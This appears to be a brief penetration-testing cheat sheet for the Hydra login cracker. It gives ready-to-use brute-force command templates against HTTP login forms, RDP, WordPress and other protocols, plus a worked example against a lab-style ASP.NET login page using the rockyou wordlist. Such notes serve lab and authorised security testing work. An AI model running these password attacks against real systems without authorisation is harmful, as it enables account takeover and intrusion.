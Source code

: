 # Hydra
___
Index | Topic
--- | ---
**1** | Description
**2** | Commands

## Description

Hydra is a parallelized, fast and flexible login cracker

## Commands

HTTP Post form: `hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "<loginURL>:<cookie>:<errorMessage>"`

- Example: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.195.45 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=1N82WicK%2Fi5hMxcsb4nhDiH8zCBqalboqfu6MCGDVl5HMEsF3RWm7UL0wsjz6SXpTw66TG%2Fi2EH25NI2QI1l5g9RdPWwDD9w5a5tKYj2Nl7eWs9coubf8qaXz2fjxORuJaF0n%2BHLNd8pNtytx9YBPQzHvw7w4zEeNDS08P%2Fb6LKus%2FYK&__EVENTVALIDATION=ofbhCfwlCi%2BFmz1wUVHvgBeMl8i2vU%2BiI%2BBU7Nm%2FkmGVlTCPQD3TnE01PICVMG8kFj7RlHBshG4RRj1yU67k8HTRgSm5XI3A8I3kUCS%2BKktOEoRIfEGQrfP7krDUoOqnP%2B5ozVFJWtDiTv0OhN2OO3sjuL7ZHHOjEj2VpL9mwPWh7KMo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"`
  - You have to change the password and user values in the cookie and replace them with `^USER^` and `^PASS^`

Brute force any protocol: `hydra -P <wordlist> -v <IP> <protocol>`

Brute force usernames as well as passwords `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`

Attack a Windows Remote Desktop with a password list `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`

Craft a more specific request for hydra to brute force `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
